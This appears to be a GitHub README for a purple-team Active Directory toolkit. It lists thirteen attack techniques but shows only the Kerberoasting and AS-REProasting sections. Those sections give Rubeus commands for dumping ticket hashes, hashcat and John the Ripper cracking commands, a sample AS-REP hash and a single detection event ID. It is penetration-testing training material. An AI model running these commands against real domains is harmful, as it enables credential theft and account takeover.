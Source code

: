 # Cybersecurity Windows Purple Project Documentation
Cybersecurity Red team and Blue team tooling for ease of use during penetration test and purple team exercises. 

## Table of Contents

1. [Kerberoasting](#kerberoasting)
2. [AS-REProasting](#as-reproasting)
3. [GPP Passwords](#gpp-passwords)
4. [GPO Permissions/GPO Files](#gpo-permissionsgpo-files)
5. [Credentials in Shares](#credentials-in-shares)
6. [Credentials in Object Properties](#credentials-in-object-properties)
7. [DCSync](#dcsync)
8. [Golden Ticket](#golden-ticket)
9. [Kerberos Constrained Delegation](#kerberos-constrained-delegation)
10. [Print Spooler & NTLM Relaying](#print-spooler--ntlm-relaying)
11. [Coercing Attacks & Unconstrained Delegation](#coercing-attacks--unconstrained-delegation)
12. [Object ACLs](#object-acls)
13. [PKI - ESC1](#pki---esc1)

---

## Kerberoasting
To obtain crackable tickets, we can use [Rubeus](https://github.com/GhostPack/Rubeus) 

`PS C:\Users\bob\Downloads> .\Rubeus.exe kerberoast /outfile:spn.txt`

We can use hashcat with the hash-mode (option -m) 13100 for a Kerberoastable TGS. 
We also pass a [dictionary file](https://github.com/danielmiessler/SecLists/tree/master/Passwords/Common-Credentials) with passwords (the file passwords.txt) and save the output of any successfully cracked tickets to a file called cracked.txt:

`hashcat -m 13100 -a 0 spn.txt passwords.txt --outfile="cracked.txt"`

Alternatively, the captured TGS hashes can be cracked with John The Ripper:

`sudo john spn.txt --fork=4 --format=krb5tgs --wordlist=passwords.txt --pot=results.pot`

*Detection*: When a TGS is requested, an event log with ID 4769 is generated.

## AS-REProasting
To obtain crackable hashes, we can use [Rubeus](https://github.com/GhostPack/Rubeus) we can obtain crackable hashes for user accounts that have the property Do not require "Kerberos preauthentication enabled".

`PS C:\Users\bob\Downloads> .\Rubeus.exe asreproast /outfile:asrep.txt`

For hashcat to be able to recognize the hash, we need to edit it by adding 23$ after $krb5asrep$:

`$krb5asrep$23$anni@eagle.local:1b912b858c4551c0013dbe81ff0f01d7$c64803358a43d05383e9e01374e8f2b2c92f9d6c669cdc4a1b9c1ed684c7857c965b8e44a285bc0e2f1bc248159aa7448494de4c1f997382518278e375a7a4960153e13dae1cd28d05b7f2377a038062f8e751c1621828b100417f50ce617278747d9af35581e38c381bb0a3ff246912def5dd2d53f875f0a64c46349fdf3d7ed0d8ff5a08f2b78d83a97865a3ea2f873be57f13b4016331eef74e827a17846cb49ccf982e31460ab25c017fd44d46cd8f545db00b6578150a4c59150fbec18f0a2472b18c5123c34e661cc8b52dfee9c93dd86e0afa66524994b04c5456c1e71ccbd2183ba0c43d2550`
